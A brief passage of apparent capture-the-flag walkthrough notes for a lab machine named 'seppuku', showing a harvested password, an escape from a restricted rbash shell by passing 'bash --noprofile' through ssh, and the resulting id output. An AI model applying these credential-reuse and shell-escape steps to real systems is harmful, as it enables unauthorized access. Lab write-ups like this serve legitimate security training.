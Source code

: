 # 8 box enum samurai

```
samura:12345685213456!@!@A
# as its /bin/rbash
# escaping it >

$ ssh samurai@192.168.131.90 -t "bash --noprofile"
samurai@192.168.131.90's password:
samurai@seppuku:~$ whoami;id;hostname
samurai
uid=1001(samurai) gid=1002(samurai) groups=1002(samurai)
seppuku
```

### Nothing new in PEAS.
